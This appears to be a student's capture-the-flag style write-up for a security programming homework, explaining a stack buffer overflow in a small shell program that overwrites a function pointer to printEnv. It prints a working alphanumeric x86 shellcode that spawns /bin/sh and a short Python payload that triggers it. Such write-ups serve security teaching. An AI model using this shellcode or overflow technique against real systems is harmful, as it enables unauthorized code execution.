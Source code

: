 ```yaml
---
title: nphw1 Writeup
category: memo
slug: nphw1-writeup
date: 2014-11-12
---
```

Security Programming Homework 2-1

## Intelligence Gathering

-  There is a vulnerability in piece of code which contains `strtok()`
-  There is a `call eax` in the binary
-  Because it is an interactive shell program, bad characters are 0x00, 0x0a,
   0x2f (filter out by specific function in the program)

## De-complie the binary

It is hard to debug using gdb. A possible method is to use gdbserver to do
remote debugging. But sadly, I do not have time to learn how to use it. Maybe
next time...

So I turned up using IDA Pro to do the static analysis. By decompilation,
bunch of functions showed up:

```text
...
frame_dummy
passCmdline
splitCmdline
parseArgv
printEnv
setEnv
getResult
sendResult
closePipes
exeCmd
nextLine
main
passPipe
addPipe
delPipe
...
```

By doing some observation, I picked up three interesting functions for deeper
inspection: `main`, `passCmdline`, `splitCmdline`, `exeCmd`.

| Offset of cmdline | Meaning                                |
| -----------------:| -------------------------------------- |
| 0                 | pointer of whole command line          |
| 1 - 10000         | pointer of each word                   |
| 10001             | number of words in whole command line  |
| 10002 - 11001     | single command, seperated by pipe char |
| 11002             | argc                                   |
| 11003             | not important                          |
| 11004             | stdout                                 |
| 11005             | pointer of function printEnv()         |
| 11006             | pointer of string "printenv"           |
| 11007             | pointer of function setEnv()           |

Since the program uses function pointer to call printEnv(), we can simply put
our shellcode to replace the original printEnv() with the aid of buffer
overflow.

According to the table above, stack overflow will happen when we type more than
1000 words in one single command (commands are seperated by '|'). To overwrite
index 11005 with our shellcode, we need to stuff 1003 words in total.

The 1005th word will overwrite the pointer of the string "printenv", which used
to compared to the very first word. When they are equal, the program will run
into printEnv(). So our job is to ensure they will be the same, otherwise it
won't call our shellcode.

## Shellcode

The shellcode for execute `/bin/sh` is showed following, grab from the
Internet. See the references at the end of this article for more information.

```text
PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx
```

## Exploitation

The first word should be the same as the last word, and the shellcode should be
1004th word. That's all!

```python
payload = 'a ' * 1003
payload += 'PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx '
payload += 'a'
```

Don't forget to append a new line character to fire our payload!

## Flag

The flag is `SECPROG{N3tw0rk_Pr0gr4mm1ng_h0m3w0rk_1s_e4s1er}`

## References

-  [Linux x86 Shellcoding 101 – Objective: Topics introduction and exit(69)
   shellcode](http://0xcd80.wordpress.com/2011/04/16/linux-x86-shellcoding-101/)
-  [x86 alphanumeric shellcodeを書いてみる](http://inaz2.hatenablog.com/entry/2014/07/11/004655)
